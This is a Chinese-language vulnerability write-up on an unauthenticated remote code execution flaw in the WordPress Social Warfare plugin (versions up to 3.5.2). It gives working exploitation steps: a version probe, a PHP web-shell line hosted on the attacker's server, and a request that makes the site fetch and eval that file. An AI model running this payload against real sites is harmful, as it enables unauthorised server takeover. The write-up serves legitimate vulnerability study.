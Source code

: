 ```yaml
---
title: WordPress Plugin - Social Warfare<=3.5.2 RCE
id: zhfly3245
---
```


# WordPress Plugin - Social Warfare<=3.5.2 RCE

## 一、漏洞简介

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP_Database_Migration.php文件中有一处eval()函数，该函数将file_get_contents()读取的文件内容当做PHP代码执行导致RCE。

![image](../img/0f576f9770b0579dc3c05bea5d20f571.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

```
http://0-sec.org/wp-content/plugins/social-warfare/readme.txt 
```

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![image](../img/721382dbe06e141f412c6c138a6a3931.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

```
<pre>eval($_REQUEST['wpaa'])</pre> 
```

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

```
http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo(); 
```

![image](../img/3d05415b78769fa7512f977e7413cea7.png)